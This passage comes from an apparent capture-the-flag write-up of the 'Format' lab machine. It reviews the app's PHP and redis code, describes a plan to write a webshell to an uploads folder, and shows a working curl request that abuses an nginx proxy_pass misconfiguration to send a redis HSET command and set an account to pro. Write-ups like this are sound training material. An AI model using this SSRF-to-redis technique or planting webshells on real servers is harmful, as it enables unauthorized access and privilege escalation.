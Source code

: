 After all commands are finished, we are left with an /uploads folder under our blog, with 700 permissions. The creator, in this case the web service account, can read/write/execute files within this location. The exploit chain is now clear. If we can trigger `provisionProUser`, we will be able to write a webshell in the uploads folder using Arbitrary File Write. 
This function is dependent on `isPro()` being set to true. Looking for `isPro`:
```php
function isPro() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $pro = $redis->HGET($_SESSION['username'], "pro");
        return strval($pro);
    }
    return "false";
}
```
The program is utilizing a `redis` sock to store credentials and characteristics of accounts. When we check the register page to see how accounts are created, we can see `pro` is set to false when a user is created:
```php
if (isset($_POST['first-name']) && isset($_POST['last-name']) && isset($_POST['username']) && isset($_POST['password'])) {
    if(!preg_match('/^[a-zA-Z\-]+$/', $_POST['first-name']) || strlen($_POST['first-name']) > 50) {
        print_r("Invalid first name");
<...SNIP...>
    else {
        $redis->HSET(trim($_POST['username']), "username", trim($_POST['username']));
        $redis->HSET(trim($_POST['username']), "password", trim($_POST['password']));
        $redis->HSET(trim($_POST['username']), "first-name", trim($_POST['first-name']));
        $redis->HSET(trim($_POST['username']), "last-name", trim($_POST['last-name']));
        $redis->HSET(trim($_POST['username']), "pro", "false"); //not ready yet, license keys coming soon
        $_SESSION['username'] = trim($_POST['username']);
        header("Location: /dashboard?message=Registration successful!&status=success");
    }
}
```

Looking at the nmap port scan, we don't see an open port that might be related to redis. So we cannot bypass the registration page and communicate with redis directly, or can we? 
## Foothold
### SSRF to redis database via nginx misconfiguration
[This article](https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/) covers how we might abuse poor configuration in nginx's proxy_pass settings, allowing us to send commands directly to the redis socket.

referring to the source code, we see new account information is set with the `HSET` request type, as opposed to the article's MSET. After making the `asdf` account like normal, we can hopefully change the `pro` key to "True" by sending another request. For this, I chose to craft a `curl` request. Note that the redis socket location is replicated from the `isPro` function shown earlier.
```
┌──(kali㉿kali)-[~/Documents/Format]
└─$ curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:%22asdf%22%20pro%20%22true%22%20/js/jquery.js
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
```
Despite the error, we can see that we have become a pro user with our new star badge:

